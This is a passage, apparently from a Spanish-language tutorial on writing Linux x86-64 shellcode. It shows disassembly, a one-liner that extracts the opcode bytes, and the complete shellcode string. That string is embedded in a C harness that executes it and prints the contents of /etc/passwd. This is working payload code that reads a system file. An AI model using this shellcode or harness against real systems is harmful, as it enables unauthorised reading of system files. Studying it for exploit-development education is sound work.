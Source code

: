 ```
  4000b2:       04 01                   add    al,0x1
  4000b4:       0f 05                   syscall
  4000b6:       48 31 c0                xor    rax,rax
  4000b9:       04 3c                   add    al,0x3c
  4000bb:       0f 05                   syscall

00000000004000bd <_push_filename>:
  4000bd:       e8 c0 ff ff ff          call   400082 <_readfile>

00000000004000c2 <path>:
  4000c2:       2f                      (bad)
  4000c3:       65                      gs
  4000c4:       74 63                   je     400129 <path+0x67>
  4000c6:       2f                      (bad)
  4000c7:       70 61                   jo     40012a <path+0x68>
  4000c9:       73 73                   jae    40013e <path+0x7c>
  4000cb:       77 64                   ja     400131 <path+0x6f>
```

Para extraer el shellcode en la consola de linux:

```
for i in `objdump -d readfile | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done

\xeb\x3b\x5f\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xc0\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64
```

Si inyectamos nuestro shellcode o bytecode en otro programa de C, quedaría de la siguiente manera:

```
const char code[] = "\xeb\x3b\x5f\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xc0\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64";

int main(int argc, char **argv)
{
    (*(void(*)())code)();

    return 0;
}

```

Ahora sólo tendremos que compilarlo y ver como nuestro shellcode inyectado funciona:

```
gcc test2.c -o test2 
./test2
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```
Notas varias de interes: 
